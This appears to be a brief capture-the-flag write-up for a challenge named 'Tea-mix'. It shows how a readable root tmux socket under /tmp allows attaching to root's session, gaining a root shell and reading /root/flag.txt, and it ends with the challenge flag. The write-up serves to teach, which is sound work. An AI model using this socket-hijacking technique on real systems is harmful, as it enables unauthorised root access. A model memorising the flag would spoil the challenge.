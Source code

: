 # Tea-mix

The name hinted towards tmux, which was confirmed by session files for tmux in /tmp; including /tmp/tmux-0/tea\_mix \(root's session\) We have permission toy read the socket file, meaning we can attach to the tmux session.

```text
export TERM=xterm
set tty rows/cols to your own terminal
tmux -S /tmp/tmux-0/tea_mix
root shell
cat /root/flag.txt
```

## Flag: flag{oooohhhh\_tea\_mix\_sounds\_like\_tmux\_i\_get\_it}

